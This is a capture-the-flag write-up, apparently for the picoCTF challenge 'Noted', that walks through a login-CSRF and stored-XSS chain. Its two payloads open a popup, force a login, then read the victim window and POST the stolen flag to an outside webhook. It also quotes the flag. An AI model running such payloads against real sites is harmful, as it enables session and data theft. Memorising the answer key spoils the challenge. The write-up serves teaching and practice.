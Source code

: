 # Noted

### Problem 

A browser XSS problem that requires us to retrieve a flag from the server's logged in session. The browser does not have internet access.

### Solution

There are 3 hints in this problem: 

```
1. Are you sure I followed all the best practices?
2. There's more than just HTTP(S)!
3. Things that require user interaction normally in Chrome might not require it in Headless Chrome.
```

Deciphering these hints is the key to solving this problem. 

The second hint is the easiest. Since the browser has no internet, we can execute JS on the browser using either the `javascript:` scheme or the `data:` scheme.

The first hint can refer to several things. For example, there is a lack of CSRF protection on register and login, and we can directly inject HTML into the notes page. These 2 facts will aid our solving process. 

The last hint is the most obscure and also a little trivial. Off the top of my head I can name 2 features in Chrome that require user interaction: autoplay and popups. In the beginning I thought I could use the autoplay feature to exploit some kind of RCE in the renderer process and further exploit the lack of sandbox on the chromium instance. However, it turned out popups was the one we were looking for. 

We know we are able to execute JS code on the browser. The only thing that stood in our way was CORS/SOP. Since we are using `javascript:` or `data:` scheme, the origin is treated as `null`, and is thus prevented by accessing the actual website. One way to gain access to the website is to somehow XSS on the actual website. We know we can achieve this using the notes page.

There are 2 ways of approaching this:
1. Attempt to use the browser's logged in session to make a new note. 
2. Create a note and make the browser log in as us. 

Option 1 is unviable because the notes page has something known as CSRF protection, which basically prevents us from programmatically creating a note without XSSing the note creation page, which cannot be done without gaining XSS on the website itself through a note first. 

Option 2 is then our only option. Reading up more about CORS, it turns out that HTML forms can bypass this for web compatibility reasons, and that the only way to prevent this is to use CSRF protection. We noted earlier that the login page lacks CSRF protection. Also note that as soon as we log in as ourselves, we can XSS and then access other windows since we now have the same origin. So with this idea we now know how to read the flag. 

We can use the following steps: 
1. Create a new note yourself that contains an XSS attack. 
2. Send a report to the server
3. On the server, open a popup to notes as the server's logged in user. 
4. Create a form with JS that POSTs to the login page, fill out your credentials, and login. 
5. The page will be redirected to the notes page, which contains your XSS.
6. Using the XSS, access the popup you opened earlier and read the contents, which contains the flag.

Now the only thing that remains is to send the flag back to ourselves. Since we have no internet access, we can use a timing attack and hang/crash the server if we guessed a correct character and keep doing this until we have the entire flag. However, it appears that at the last minute the challenge allowed outbound internet access, so we can simply send the flag to ourselves through something like a Discord webhook. 

Here is my payload: 
URL: 
```js
javascript:{
window.open("http://0.0.0.0:8080/notes", "window");
var form = document.createElement("form");
form.method = "POST";
form.action = "http://0.0.0.0:8080/login";
var element1 = document.createElement("input"); 
var element2 = document.createElement("input");  
element1.value="yes";
element1.name="username";
form.appendChild(element1);  
element2.value="yes";
element2.name="password";
form.appendChild(element2);
document.body.appendChild(form);
form.submit();
}
```
XSS: 
```html
<script>
let win = window.open('', 'window');
let flag = /picoCTF{(.*?)}/.exec(win.document.body.innerHTML)[1];
var request = new XMLHttpRequest();
request.open("POST", "<REDACTED WEBHOOK LINK>");
request.setRequestHeader('Content-type', 'application/json');
var params = {content: flag};
request.send(JSON.stringify(params));
</script>
```

Using this, we can obtain the flag, which is `picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}`.
